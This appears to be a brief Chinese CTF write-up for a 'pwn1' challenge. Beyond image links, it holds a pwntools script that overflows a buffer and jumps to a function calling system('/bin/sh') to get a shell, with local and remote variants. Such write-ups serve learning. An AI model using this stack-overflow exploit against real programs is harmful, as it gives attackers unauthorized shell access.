










```python
from pwn import *

io = process('.\pwn1')              # 本地测试
# io = remote()                     # 远程连接

getshell_code = 0x0040118A          # 包含system("/bin/sh");的函数的地址
# padding = 0xF + 4                   # 偏移量, 32位程序
# payload = b'a' * padding + p32(getshell_code)

padding = 0xF + 8                 # 偏移量, 64位程序
payload = b'a' * padding + p64(getshell_code)

io.sendline(payload)
io.interactive()

```

本地测试


远程连接


